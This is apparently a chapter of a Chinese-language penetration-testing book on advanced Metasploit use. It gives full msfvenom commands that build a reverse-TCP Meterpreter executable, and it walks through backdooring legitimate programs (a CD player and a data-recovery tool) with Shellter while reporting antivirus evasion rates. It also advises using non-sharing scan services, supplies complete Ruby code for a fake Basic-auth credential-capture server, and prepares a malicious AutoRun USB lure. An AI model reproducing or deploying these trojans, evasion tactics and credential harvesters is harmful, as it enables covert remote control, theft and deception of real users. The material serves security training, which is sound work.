

# 第七章：使用 Metasploit 进行高级利用

任何在过去 18 年里从事过这方面工作的人都知道 Metasploit 能做什么。外面有各种各样的 Metasploit 使用者，但我们特别考虑其中两类人。首先是勇敢的业余爱好者。他们下载了 Kali Linux 并将其安装在 **虚拟机**（**VM**）上。接着，他们启动 Metasploit 学习基础知识——如何设置漏洞利用、有效载荷和选项，然后发射“导弹”！在这种情况下，Metasploit 很快就成为了隐喻中的锤子，而每个问题看起来都像钉子。

另一方面，有经验的安全管理员通常习惯于命令行。他们启动 Metasploit，知道如何搜索特定模块，以及如何收集适当的信息以填充选项字段。然而，他们感觉被现有的东西束缚住了。他们最近发现，通过配置快速简易的服务器来捕获特定协议的数据包，可以大大简化工作，而他们希望同样的解决方案可以作为一个模块启动。本章将介绍 Metasploit 的更高级用法。尽管我们只有有限的页面来激发兴趣，但本章应为你提供足够的内容，鼓励你在这些页面之外进行深入的研究。

本章将涵盖以下内容：

+   使用 `msfvenom` 生成并嵌套有效载荷

+   与 Shellter 一起工作

+   Metasploit 模块的内部工作原理

+   与 Armitage 一起工作

+   社会工程学角度

# 技术要求

为了充分利用本章的实践材料，你将需要以下设备：

+   运行 Kali Linux 的笔记本电脑

+   Linux 上的 Wine32

+   Shellter

+   一只 USB 闪存驱动器

# 如何第一次就做对——生成有效载荷

我们都见过一些人拿到 Metasploit 就开始开枪。如果你在家里的实验室里，单纯地看看发生了什么，那也没问题。如果你在进行专业评估时这么做，你很可能会被抓住，触发警报却什么也没做成。毕竟，渗透测试不是攻击一只坐着的鸭子——你的客户会有防御措施，大多数情况下这些防御都相当坚固。如果你的客户在预防方面不太行，他们很可能在检测方面做得很好，而且乱打有效载荷并击中随机 IP 对防守者来说简直是轻松的事。考虑到这一点，我们需要学会根据任务的需要制作有效载荷，以最大化成功率。我们越成功，就能为客户带来更多的价值。

## 安装 Wine32 和 Shellter

幸运的是，Wine32 和 Shellter 都包含在 Kali 的软件库中，因此安装它们非常简单。我们始终建议在安装任何软件之前进行文档审核，但我们特别建议对 Shellter 进行此操作。

虽然 Kali 上已经安装了 Wine32，但如果你在 64 位系统上运行 Kali，你需要安装 Wine32。安装 Wine32 的命令如下：

# dpkg --add-architecture i386 && apt-get update && apt-get install wine32

就这么简单！你使用 Wine32 的频率取决于你的需求；如果你在实战中运行 Linux 虚拟机（VM）在 Windows 主机上，你可能不会把 Wine32 用到极限。但如果你以某种 Linux 版本作为主操作系统，你会更喜欢 Wine32 在性能上相较虚拟机或模拟器的优势。

要设置 Shellter 这个原生 Windows 应用程序，请使用以下命令：

# apt-get install shellter

就是这样！你现在已经准备好在 Kali 中玩 Windows 可执行文件，并动态注入规避的 Shellcode 到应用程序中——这一点我们会在*第十章*《Shellcoding - The Stack》中详细探讨。

## 有效载荷生成独立进行——使用 msfvenom

在过去，你可以通过命令行启动 Metasploit Framework 的不同实例来生成有效载荷——它们分别是`msfpayload`和`msfencode`。现在的孩子们可以通过一个统一的 Metasploit Framework 实例`msfvenom`来生成有效载荷。除了显而易见的优势——一个统一的命令行和标准化的参数来精细调整攻击，`msfvenom`的速度也更快。

那么，什么是有效载荷（payload）呢？我们最好首先理解一下 Metasploit 的核心结构——**模块**。模块是 Metasploit 中的对象，用于完成某个特定的任务，任务的性质决定了模块的类型。有效载荷只是 Metasploit 中的一种模块类型，其任务是包含远程执行的代码。有效载荷由漏洞利用模块使用，漏洞利用模块是用于传送有效载荷的系统。我们稍后会更详细地讨论这一点。现在，我们来看一下可以独立运行的有效载荷生成，这将为你在实战中提供无与伦比的灵活性。

有三种不同类型的负载 – singles、stagers 和 stages。 Singles 是这些中真正的独立体。 它们甚至不需要与 Metasploit 通信即可回传– 你可以用简单的 `netcat` 命令捕获它们。 Stagers 和 stages 相关但有区别； 一个 stager 为获取与目标之间的数据设置阶段。 简而言之，stager 创建网络连接。 stager 负载将会执行然后试图回传，而且由于连接来自内部，我们可以绕过讨厌的 `Network Address Translation** (`NAT**) 防火墙。 Stages 是通过 stager 传送到目标的负载组件。 让我们使用一个非常常见的 Meterpreter 回连示例 – Meterpreter 组件本身是 stage，而创建 TCP 连接返回给攻击者的模块则是 stager。 当然，如果无人响应，那么回传毫无意义，所以我们必须依赖处理程序来接收和处理任何连接。

让我们查看在终端窗口启动 `msfvenom` 时，它为我们提供了什么。 请注意，出于说明目的，我们将定义选项的完整名称。 在实践中，您可以使用更短的标志（例如， `--payload` 等同于 **-p**）：

# msfvenom -h

让我们探索一些命令行：

+   `--payload` 命令定义了我们将使用的 payload。 将其视为行为； 这是我们的 payload 将要执行的操作。 接下来我们将仔细研究特定的 payloads。

+   `--list` 命令将输出给定模块类型的可用模块。 所以，假设你在 `--payload` 方面遇到问题； 你可以发出 `msfvenom --list payloads` 命令获取列表。 但是，如果你不确定到底需要构建什么，你可能需要这些可用模块的列表。 如果你更喜欢在 `msfconsole` 中使用搜索功能，不要担心 – 我们将在接下来看一下。

+   `--nopsled` 命令是一个 shellcoding 选项，我们将在 *Chapter 10* 中更详细地探讨它，*Shellcoding - The Stack*。

+   `--format` 命令表示将要创建的文件类型。 这是你制作卑鄙可执行文件时应指定的地方。 然而，`msfvenom` 灵活性的一个领域显现在这里，因为有许多可用的格式。 在本书中，我们将查看其中几个，但是通过 `--help-formats` 命令可以帮助你熟悉它们。

+   `--encoder` 命令是另一个选项，我们将在 *第十章* 中更详细地讨论，*Shellcoding - The Stack*。编码器可以改变代码的外观，而不改变其底层功能。例如，也许你的负载需要以字母数字表示法进行编码，或者你需要去除破坏执行的字符。你可以将其与 `--bad-chars` 结合使用，去除如 `0x00` 这样的破坏执行的字符。负载的编码可以通过 `--iterations` 重复多次，定义了编码器的遍历次数。这可以使负载更加隐蔽（即更难被检测到），但值得指出的是，编码并不是为了绕过任何东西——它的真正目的是让代码准备好在特定的环境中运行。

+   `--arch` 和 `--platform` 允许你指定负载运行的环境；例如，32 位（指令集架构）Windows（平台）。

+   `--space` 命令定义了负载的最大大小（以字节为单位）。当你知道存在某种限制时，这个命令非常有用。编码后的负载空间与此相同，除非你希望将其定义为不同的值。在这种情况下，你可以使用 `--encoder-space`。`--smallest` 也很有用，它生成最小可能的负载。

+   `--add-code` 允许我们通过将来自不同生成负载的 shellcode 注入到这个负载中，创建一个 *一举两得* 的局面。源代码可以是可执行文件，甚至可以是 `msfvenom` 上一次运行的原始输出。你可以多次执行此操作，可能会将多个负载嵌入到一个中。不过实际上，如果这样做，你可能会遇到编码问题。

+   `--template` 命令允许你使用现有的可执行文件作为模板。Windows 可执行文件由多个部分组成，因此你不能仅仅输出一些 shellcode – 它需要放置在某个地方。模板包含了制作有效可执行文件所需的一切——它只是等待你将 shellcode 放入其中。如果你愿意，还可以在此处指定特定的可执行文件，`msfvenom` 会将负载转储到可执行文件的文本部分（编译器生成的通用代码所在的位置）。这一点本身就很强大，但当与 `--keep` 一起使用时，模板 EXE 的原始功能得以保留，shellcode 会被放入一个新的执行线程中，这使得该选项更加隐蔽。

+   `--out` 命令定义了我们的负载输出的路径。

+   `--var-name` 命令在我们讨论 shellcoding 时会对我们有用，但即便如此，它也不会做太多事情。它真正是为那些喜欢与众不同并使用自定义输出变量名称的人准备的。

+   `--timeout` 命令是生成大有效载荷的一个新特性；它防止在读取有效载荷时出现超时。这个需求来自那些将`msfvenom`的输出通过管道传递到`msfvenom`的用户。你可能不会使用这个选项，但知道它的存在还是挺不错的。

现在我们已经了解了这个工具的强大功能，是时候进行一次包含两个有效载荷的攻击演示了。

## 创建嵌套的有效载荷

接下来，我们将为客户准备一个演示，在该演示中，有效载荷将显示一条消息给用户，内容是**你被搞定了，兄弟！**，同时为监听处理器创建一个 Meterpreter 会话。

有两个有效载荷，所以我们必须使用两个命令，它们如下：

# msfvenom --arch x86 --platform windows --payload windows/messagebox ICON=INFORMATION TITLE="抱歉" TEXT="你被搞定了，兄弟！" --format raw > Payload1

# msfvenom --add-code Payload1 --arch x86 --platform windows --payload windows/meterpreter_reverse_tcp LHOST=192.168.108.106 LPORT=4567 --format exe > demo.exe

到此为止，我们已经在两个命令中将目标架构和平台设置为 32 位 Windows。在第一个命令中，我们将有效载荷设置为`windows/messagebox`，并设置了`ICON`、`TITLE`和`TEXT`有效载荷选项。（如果你要使用感叹号，就像我们在这里做的一样，在它后面加个空格，避免转义结束的引号，或者使用单引号。）格式是原始二进制格式，因为我们将把它导入到下一个命令中并使用`--add-`code。第二个有效载荷是`windows/meterpreter_reverse_tcp`，它是一个 Meterpreter 会话，连接回我们通过`LHOST`（反向）并通过 TCP 端口连接，我们通过`LPORT`定义了端口。最后，我们希望将结果输出为 EXE 格式。请注意，这只是一个演示；我们通常会推荐其他有效载荷的组合，因为消息框并不算隐蔽：

图 7.1 – 我们的有效载荷执行结果

虽然我们将在本书后面讨论 shellcoding 的细节，但值得一提的是，组合有效载荷很可能会在你的作品中引入不良字符。你应该在测试环境中验证你的结果，使用`--bad-chars`来消除类似空字节之类的字符，这些字符几乎肯定会破坏 Windows 的 shellcode。生成有效的 shellcode 并非魔法，因此如果某些有效载荷无法被编码，不要感到惊讶！

## 大乱斗 – 使用 Shellter 绕过防病毒软件

让我们来看一下以下步骤：

1.  首先，我们需要启动 Shellter。要启动 Shellter，请使用以下命令行：

    # shellter

1.  由于我们现在完全是新手，我们将在这里使用自动模式。接下来，我们需要确定要后门化的可执行文件：

图 7.2 – 在 Wine32 中加载 Shellter

除了确保可执行文件是 32 位的，良好的做法是使用一个能够独立运行的可执行文件。依赖于专有 DLL 文件通常会引发问题。在将代码注入到程序中之前，你还应验证该程序是否被杀毒引擎认为是干净的；误报是杀毒软件中常见的现象，在注入过程中再怎么隐蔽也无法改变程序中固有的可疑行为。

注意

在撰写时，x64 注入功能已经在 Shellter 的付费版本中可用。许可证仅限于专业人士使用，但如果你的预算允许，推荐支持这个项目。

在我们的演示中，我们将使用一个适用于 Windows 的老旧 CD 播放器工具。32 位版本可以在几乎所有 Windows 系统上独立运行——只需要下载并执行即可。说到选择可执行文件用于此目的，我们建议对社区保持友善，并在工作中发挥创造力。例如，现在我们已经用 `CDPlayer.exe` 编写了这个演示，它已经公开，世界各地的杀毒引擎将能对其进行更好的启发式检测。人们常常倾向于重复熟悉的流程，但更好的做法是发挥创意。

1.  在确定了我们要注入载荷的可执行文件后，我们进入 **隐形模式** 并选择我们的载荷。如以下截图所示，Metasploit 的七个启动器已内建。

1.  Shellter 会询问你是否有自定义载荷（稍后会讲到），但是如果现有的七个载荷中的某一个能够满足你的需求，最好还是选择现有的载荷。我们这次的案例是建立一个回连的 Meterpreter 会话，因此我们选择载荷索引 1：

图 7.3 – Shellter 中的载荷选择

1.  一旦 Shellter 收集了所需的所有信息，它不会花太长时间。CD 播放器将被注入并保留在原始文件位置。一旦可执行文件传送到目标，受害者启动它，如下图所示：

图 7.4 – CD 播放器程序在目标 PC 上运行

与此同时，在我们的攻击 Kali 主机上，Meterpreter 会话已经接收到传入连接并开始工作。不过，这并不是最有趣的部分；这里值得注意的是，原始可执行文件的运行与预期完全一致。CD 播放器完美运行，同时我们开始偷取战利品并在目标上建立持久化。很酷吧？Shellter 通过分析合法程序的执行流程（我们之前在追踪阶段已经看过）并将 shellcode 放置在流程中的自然位置，成功地实现了这一点。并没有突然的重定向到代码的其他地方，也没有奇怪的内存请求，正如你在非动态感染的可执行文件中可能看到的那样。代码看起来不像是被注入的；它看起来就像是本来就应该做它做的事，那就是为用户提供一个方便的方式播放他们的 1990 年代老音乐 CD，同时悄悄地将计算机的远程控制交给第三方。

在用户听音乐时建立目标控制可能很有趣，但它也能展示 Shellter 的强大功能。例如，当我们将生成的文件与主要的杀毒软件进行比对时，我们发现成功躲避了 67%的所有供应商。如你所见，Shellter 以一种新颖的方式将 shellcode 整合到执行流程中，这使得它很难被检测到。

对社区保持友善

如果你还没有实验室，你可能会想在许多提供病毒扫描或沙箱虚拟机进行实时测试的网站上玩弄你的创作。如果你打算这么做，确保你在一个不会将你的提交内容与反恶意软件社区分享的环境中工作！你可能会发现，第一天对你有效的东西突然不再有效，并且你可能通过提供过多的信息而将自己锁在外面。考虑购买沙箱供应商的账户，这样他们可以为你提供一个私人环境；同样，不要使用流行的 VirusTotal，考虑使用 AntiScan.me 或 NoDistribute.com 进行扫描，并研究杀毒软件对你创作的响应。

重要的是要记住，这个结果是我为本书准备的 10 分钟演示的成果——没有进行细致的调整。根据你的客户独特环境中的具体场景调整你注入的木马将是至关重要的。也许你的客户使用了一个没有检测到我们演示为恶意的供应商——或者他们使用的是另外 33%的供应商，你将不得不重新开始。我们将在*第十章*中介绍这种细致的调整，*Shellcoding - The Stack*。

# 模块——Metasploit 的核心

我们已经在 Metasploit 中玩过一些模块了。如果现在还不清楚的话，Metasploit 框架中的所有内容都是模块。有效载荷是一种模块；漏洞利用是另一种模块，它包括有效载荷。你可以拥有没有有效载荷的漏洞利用模块，它们被称为辅助模块。对于没有接触过的人来说，很容易认为漏洞利用模块才是充满激情的地方。在利用某个不为人知的软件漏洞成功打开一个 Shell 后，那种感觉就像是好莱坞电影中的场景。但当你在实际环境中发现，几乎所有那些令人垂涎的漏洞都不存在于客户端环境中时，你会发现自己开始依赖辅助模块。

既然我们已经初步了解了模块的工作方式，那么让我们通过构建一个模块来深入了解它们的核心工作原理。尽管这只是一个简单的示例，但希望它能激起你对以后构建更高级模块的兴趣。

## 构建一个简单的 Metasploit 辅助模块

我不知道你怎么想，但我不是 Ruby 的大粉丝。虽然 Ruby 有时可能会让人感到不方便，但在 Metasploit 中构建模块的过程非常简单，弥补了这一点。如果你能编写一些基础的 Ruby 并理解不同方法的工作原理，你就能构建一个模块。

在这个示例中，我们搭建了一个基本的 HTTP 服务器，它会提示任何访问者输入凭据。它通过对任何请求返回*401 未授权*错误来实现这一点，这应该会让几乎所有浏览器都提示用户输入凭据。一旦假认证完成，您可以将用户重定向到您选择的 URL。我们逐行分析这个模块，从以下代码开始：

class MetasploitModule < Msf::Auxiliary

include Msf::Exploit::Remote::HttpServer::HTML

def initialize(info={})

super(update_info(info,

'Name' => 'HTTP 服务器：基本身份验证凭据捕获',

'Description' => %q{

通过 401 响应提示浏览器请求凭据。

},

))

register_options([

OptString.new('REALM', [ true, "用于身份验证的领域属性。", "安全站点" ]),

OptString.new('redirURL', [ false, "发送凭据后重定向的目标地址。" ])

])

结束

如您所见，一旦我们创建了`MetasploitModule`类，就会使用`include`导入一个模块。通过这种方式导入的模块通常称为`mixins`，因为它们将引用模块中的所有方法并混合进来。当你在构建模块或者研究模块以了解其工作原理时，应该特别注意这一点。如果你只是查看一个模块的内部工作原理，也应该检查一下这个 mixin 代码。同样，如果你在构建模块时，如果能够引入具有核心功能的模块，不要重复发明轮子。在我们的例子中，我们通过伪装成一个 HTTP 服务器来捕获凭据，因此我们引入了`Msf::Exploit::Remote::HttpServer::HTML`的功能。

Here, the `initialize** method takes **info={}** as an argument and is meant to provide general information about the auxiliary module, with **super(update_info())**, and then declare the options available to the user with **register_options()`. We’re not concerned with the general information for now; however, we are interested in the options. Options are user-defined variables known as `datastore options`. `OptString.new()` declares a variable of the string class, so we’re now allowing the user to define the authentication realm, which redirects the URL after the falsified authentication is complete. You may be thinking, *what about localhost and port?*, and you’d be right to.

Remember that we imported the HTTP server mixin, which already has its port and host declared, as shown in the following code:

def run

@myhost = datastore['SRVHOST']

@myport = datastore['SRVPORT']

@realm = datastore['REALM']

print_status("Listening for connections on

#{datastore['SRVHOST']}:#{datastore['SRVPORT']}...")

Exploit

end

Now, we have to create the `run` method, which is where the module’s functionality starts. Some instance variables are declared here using the values stored in the defined datastore options, and the user is then advised that we’re firing up a quick-and-dirty HTTP server.

Normally, the `run` method is where the juicy stuff goes, but in this case, we’re leveraging the HTTP server mixin. The real exploit that’s being called is just an HTTP server that returns requests and session data when someone connects to it. We also define the `on_request_uri()` method so that it does something with the returned data, as shown in the following code:

def on_request_uri(cli, req)

if(req['Authorization'] and req['Authorization'] =~ /basic/i)

basic,auth = req['Authorization'].split(/\s+/)

user,pass = Rex::Text.decode_base64(auth).split(':', 2)

print_good("#{cli.peerhost} - Login captured! \"#{user}:#{pass}\" ")

if datastore['redirURL']

print_status("Redirecting client #{cli.peerhost} to #{datastore['redirURL']}")

send_redirect(cli, datastore['redirURL'])

else

send_not_found(cli)

end

else

print_status("We have a hit! Sending code 401 to client #{cli.peerhost} now... ")

response = create_response(401, "Unauthorized")

response.headers['WWW-Authenticate'] = "Basic realm=\"#{@realm}\""

cli.send_response(response)

end

end

end

Take a look at the general structure of the previous method. It’s essentially an `if...else** statement, which means that it is in reverse chronological order of events. This means we expect the initial request to come in, causing us to send back the 401 (the **else** statement) before we parse out the credentials that are sent back by the browser (the **if` statement). This is done because, from the perspective of the HTTP listener, anything that’s sent to the server is going to get passed to `on_request_uri()`.

`if`语句会在请求中包含身份验证尝试时通过，解析并解码来自入站数据包的数据，然后通过`print_good()`显示捕获的凭证（这意味着过程成功）。一个嵌套的`if`语句检查用户是否定义了`redirURL`数据存储选项。如果检查通过，则返回 HTTP 重定向；如果失败，则返回 404。`on_request_uri()`方法被`else`语句包裹着，如果入站请求不是身份验证尝试，则会执行这个语句。一个 HTTP 401 响应被创建并发送，拉取相应数据存储选项中的身份验证领域。

现在，是时候将我们的模块导入 Metasploit 了。所有模块所在的文件夹叫做`/usr/share/metasploit-framework/modules`。在这个文件夹中，你会看到不同模块类型的子文件夹。我们的示例是一个辅助模块，我们正在托管一个服务器，所以最终的路径是`/usr/share/metasploit-framework/modules/auxiliary/server`。

使用`cp`或`mv`命令将你的模块从工作文件夹移动到特定位置，并记得记下模块的文件名。现在，像往常一样启动`msfconsole`。

Metasploit 框架加载需要几秒钟的时间，因为它正在检查所有模块，以确保它们都准备好，包括你的模块。如果没有看到任何语法错误并且 Metasploit 正常启动，恭喜你——你的新模块已经通过了！

Metasploit – 让生活更轻松

获得这类手动操作的经验对于理解和发展始终是有帮助的，但 Metasploit 确实允许我们在模块开发和自定义方面进行实时操作，使用`edit`和`reload`命令。你可以在 Metasploit 中编辑模块，然后使用`reload`命令使其在当前会话中生效。

当我们使用`use`命令来加载我们的模块时，我们是通过名称和文件夹结构来引用它的。在我们的例子中，模块叫做`our_basic_HTTP.rb`，所以我们使用`auxiliary/server/our_basic_HTTP`来调用它。设置好你需要的选项后，输入`exploit`，你应该能看到类似下面的截图：

图 7.5 – 在 Metasploit 控制台运行我们的模块

查看今天的 SSL 世界中所提供的灵活性：你可以使用自定义证书来协商 SSL，这在你模拟设备时可能会派上用场。

此时，我们已经从战术层面看过了 Metasploit。现在，让我们从更高的战略层面来看待它。

# Armitage 的效率和攻击组织

如果不提 Armitage，我们不能算真正讨论 Metasploit。Armitage 是 Metasploit 的一个图形化前端环境，具有几个巨大的优势：

+   Armitage 提高了工作效率。通过点击一次即可执行一系列动作，许多繁琐的控制台操作得到了简化，很多任务可以自动化完成。用户界面环境也让组织工作变得轻松。

+   Armitage 作为团队服务器在单台机器上运行，使其可以从网络上的其他 Armitage 客户端进行访问，这将 Metasploit 框架转变为一个完整的红队攻击平台。你甚至可以编写自己的基于 Cortana 的红队机器人脚本。即使是一个熟练的个人，借助 Armitage 作为 Metasploit 的界面，也能变得极其可怕。

我们将在后期利用 Armitage 进行后渗透测试，届时它的强大功能会得以展现。现在，让我们先来看看如何让我们的 Metasploit 任务更加项目化。

## 熟悉你的 Armitage 环境

我们的第一个任务是安装 Armitage。幸运的是，它在软件库中，所以只需使用`apt-get install armitage`命令即可。安装完成后，运行`msfdb init`命令来初始化数据库。最后，使用`armitage`命令启动它。

首先出现的是登录 Armitage 团队服务器的提示。默认设置足以满足本地运行的需求，但如果你是作为红队的一部分，这里是输入团队服务器详细信息的地方。幸运的是，Armitage 对我们这些新手非常友好，如果我们还没有启动 Metasploit RPC 服务器，它会自动提供启动选项，如下图所示：

图 7.6 – Armitage 提供启动 RPC 服务的选项

Metasploit 的提示符可能让人觉得有点居高临下，但嘿，我们不能把这些事情看得太个人化。

你将会在三个主要窗口中工作——**模块**、**目标**和**标签**视图。正如你所看到的，模块树以友好的下拉文件夹格式呈现，底部还有一个搜索框。**目标**窗口位于右上角，当你开始工作时，目标会在此窗口中显示。底部是**标签**，你通常在`msf`提示符下看到的所有内容都在这里通过对应每个任务的标签呈现；你还可以看到诸如目标上列举的服务等信息。

记住，Armitage 不过是 Metasploit 的前端——它能做的，Metasploit 也能做。Armitage 本质上完成了所有的输入工作，同时为你提供专业级的攻击组织。当然，你始终可以在控制台窗口中输入任何命令，就像在 Metasploit 中一样。

顶部的下拉菜单栏功能强大，包括作为枚举目标的起始点。让我们来看看。

## 使用 Armitage 进行枚举

导航到**主机** | **Nmap 扫描** | **快速扫描（操作系统检测）**。输入扫描范围，我们在这里输入的是`192.168.108.0/24`。注意一个名为`nmap`的新控制台标签会弹出，然后你可以坐下来放松了。你不会看到太多变化，直到扫描报告完成，**目标**窗口会填充，并且检测到的操作系统会被显示，正如下面的截图所示：

图 7.7 – 使用 Armitage 进行侦察

现在，你可以对单个目标进行更彻底的扫描，并查看服务枚举的结果。右键点击一个主机并选择**服务**，一个新标签会弹出，显示一个表格，这实际上是一个更美观的方式来查看 Nmap 版本的扫描输出。

现在，是时候谈谈桌面上的大象——图形化目标视图了。它看起来很漂亮，适合做一个好莱坞黑客电影演示给朋友们，但在大规模和忙碌的环境中并不实际。幸运的是，你可以导航到`Armitage** | `设置目标视图**并选择**表格视图**来进行更改。

## 使用 Armitage，漏洞利用变得异常简单

接下来是 Armitage 可以为你节省大量时间的部分——理解攻击面并准备潜在的攻击。虽然你可能习惯了更手动的流程，但这次我们将在顶部菜单栏中选择**攻击**，然后点击**查找攻击**。你会看到进度条短暂出现，然后弹出一条祝你好运的消息。就这样。那么，发生了什么呢？嗯，Armitage 获取了主机和服务的枚举数据，并自动扫描整个漏洞模块树以寻找匹配项。右键点击一个主机并选择**攻击**。对于每个检测到匹配的服务，会有另一个下拉菜单列出可能起作用的漏洞。我们说是可能的，因为这是一个非常粗略的服务数据和漏洞选项匹配，你的作业并没有完成。你可能喜欢点击随机漏洞看看在实验室里会发生什么，但在真实世界中，你只是白白制造噪音而已。

检查利用是否适用的一种方法是使用恰如其名的`check`命令，按照以下步骤操作：

1.  在`msfconsole`中，我们可以在加载的模块提示符下启动此命令；在 Armitage 中，我们可以通过前往同样的下拉菜单，列出已找到的漏洞，滚动到列表底部并选择漏洞，完成相同的操作。观察`Tab`窗口在每个模块自动加载时生动起来，`check`命令也会被执行。请记住，单个模块必须支持`check`命令，因为并非所有模块都支持。

1.  当你从列表中选择一个利用时，弹出的窗口与从 `Modules` 窗口加载任何利用时看到的窗口相同。唯一的区别是，选项会根据你的目标自动配置，如下图所示：

图 7.8 – 浏览我们获取的攻击

1.  点击 `Launch` 以在后台启动攻击，这样你可以在等待连接返回时继续工作（如果你是这样配置的话）。

记住，Armitage 喜欢让事情看起来像好莱坞大片，因此，如果你的目标被攻陷，图标会变成一个非常不祥的闪电符号。

1.  再次右键点击目标，你会看到一个新的选项——`Shell`。你可以与它交互，并从立足点继续前进，如下所示：

图 7.9 – 被攻陷的 Linux 主机

所有这些自动化功能对于该领域的专业人士来说非常棒，但我们应该小心不要失去与黑客思维方式的联系，正是这种思维方式让这一切成为可能。

## 关于 Armitage 和渗透测试人员心态的一些话

每次开车时，我都会注意到一个在新车中非常常见的功能——侧后视镜上的盲区警示灯。它亮起时提醒驾驶员有车辆进入盲区。总的来说，我支持通过先进的技术让我们的生活更轻松，我相信这个功能是有用的。然而，我担心一些驾驶员可能会停止保持警觉，如果他们过于依赖这种技术的话。我想知道，驾驶员是否已经停止转头查看盲区。

盲区问题与 Armitage 和渗透测试的关系在于，它有点像一种新技术，它为我们开车，而我们不需要了解任何关于驾驶的知识。Metasploit 已经是自动化安全测试的一种革命性方式，而 Armitage 进一步自动化了它。在 Metasploit 存在之前，甚至在 1990 年代，大多数我们今天理所当然认为的任务都是手动完成的。当工具可用时，我们必须手动关联输出，以便开发出进行任何攻击所需的理解，而这已经是在真正的先驱者们开发出我们所需的所有知识之后的几年了。大多数现代工具允许我们在非常严格的时间框架内完成更多的工作，使我们能够专注于分析，从而为客户带来价值。然而，我们也必须应对“脚本小子”的崛起，以及一些缺乏经验但充满热情的新人，他们下载 Kali Linux，毫无顾忌地发起攻击。尽管有一些抱怨，但这些工具确实有其存在的价值，只要它们是用来改善我们的生活，而不是取代基本的常识。

有鉴于此，建议你了解幕后发生的事情。回顾代码，分析网络中的数据包，不仅研究攻击和利用的细节，还要了解受影响技术的设计意图，阅读 RFC 文档，并尝试在没有工具的情况下完成任务——或者更好的是，编写一个更好的工具。这是一个极好的机会来提升自己。

接下来，我们将通过一个恶意 USB 驱动器来发起社会工程攻击。一旦将驱动器插入 Windows 机器，我们将拥有一个 Meterpreter 会话，并能够控制目标。

# 带有 Metasploit 有效载荷的社会工程攻击

让我们通过将两个主题结合起来结束本章——将后门注入合法可执行文件，并使用 Metasploit 作为有效载荷生成器和处理器。我们将使用 Shellter 和嵌套的 Meterpreter 有效载荷来创建一个恶意的 AutoRun USB 驱动器。尽管 AutoRun 默认情况下通常未启用，但你可能会发现它在某些企业环境中已启用。即使 AutoRun 没有自动执行，我们也将处理一个可执行文件，该文件可能通过创建一种有已删除数据可以恢复的印象，诱使用户执行它。

## 使用 Shellter 创建木马

按照以下步骤使用 Shellter 创建一个木马：

1.  第一步也是最繁琐的一步是找到合适的可执行文件。这很棘手，因为 Shellter 有一些限制——可执行文件必须是 32 位的，不能是打包过的可执行文件，并且需要与我们的有效载荷兼容。我们无法在感染文件并尝试运行之前确定某个可执行文件是否有效。经过一番寻找，我们发现了一个大约 400 多 KB 的数据恢复工具，名为`DataRecovery.exe`。这个工具不需要安装，也没有任何依赖项。

1.  在确认恢复工具是 32 位并且干净后，将它放到你的根文件夹中，以便稍后使用。首先，我们要使用`msfvenom`创建一个嵌套的有效载荷。我们不必做这部分，但我们尝试给攻击增加一些炫酷的效果。使用以下命令行来执行此操作：

    # msfvenom --arch x86 --platform windows --payload windows/messagebox ICON=WARNING TITLE="数据恢复" TEXT="检测到可恢复的已删除文件。" --format raw > message

1.  现在我们应该在根文件夹中有两个文件：可执行文件和一个名为`message`的 268 字节二进制文件。现在，通过向提示输入`Y`来启动 Shellter 的隐匿模式。这需要我们按照本章前面提到的相同过程，直到我们需要指定自定义有效载荷，如下图所示：

图 7.10 – 指定自定义有效载荷

现在，Shellter 将生成 `DataRecovery.exe`；一个快速的 `sha1sum` 命令很快就能确认二进制文件已经被修改。此时，我们拥有了一个合法的数据恢复工具，它会显示一个消息框。接下来，是时候让它为我们服务了。

1.  现在我们有了嵌套的有效载荷，我们只需再次通过 Shellter 发送新的二进制文件。不过，这次我们必须在包含的有效载荷列表中选择编号为 1 的阶段 – 反向 TCP Meterpreter 有效载荷。现在，我们有了一个完整的 Trojan，准备启动。这个程序是一个合法的数据恢复工具，它会弹出一个提示框，警告用户检测到已删除的数据。同时，Meterpreter 有效载荷已经与我们的处理程序建立连接，并给予了我们控制权，如下图所示：

图 7.11 – 注入消息框有效载荷后的 Trojan，准备连接回代码

注意

配置处理程序时，始终将 `EXITFUNC` 设置为线程。如果不这样做，Meterpreter 会话在 Trojan 结束时会崩溃！

顺便提一下，我们通过这个手法提高了隐蔽性 – 现在，我们能避开 75% 的杀毒软件厂商，如下图所示：

图 7.12 – 通过调整策略提高我们的隐蔽性

这是一个典型例子，说明了微调在抗病毒逃避艺术中的重要作用。这个可执行文件发生了什么变化，使其看起来比上次更好？是通过 Shellter 的双重处理，还是使用了自定义的无害有效载荷？抗病毒检测有很多变量，很难说清楚，但请记住，在部署你的作品之前，你可能需要在实验室里多做一些测试。根据我的经验，通常我需要尝试几种不同的技巧，才能突破目标的防御。

## 为 Trojan 交付准备恶意 USB 驱动器

剩下的只有两个步骤 – 一个是技术性的（虽然非常简单），另一个纯粹是为了社会工程学的目的。让我们从技术步骤开始，即创建 `autorun` 文件：

1.  这其实很简单，只需要创建一个名为 `autorun.inf` 的文本文件，指向我们的可执行文件。它必须以 `[autorun]` 开头，文件中打开的程序由 `open=` 指定。微软定义了其他的 AutoRun 命令，但 `open=` 是我们需要的唯一命令。你还可以添加 `icon=` 命令，这将使驱动器显示为可执行文件的图标（或任何你定义的图标），如图所示：

图 7.13 – 输入 AutoRun 文件

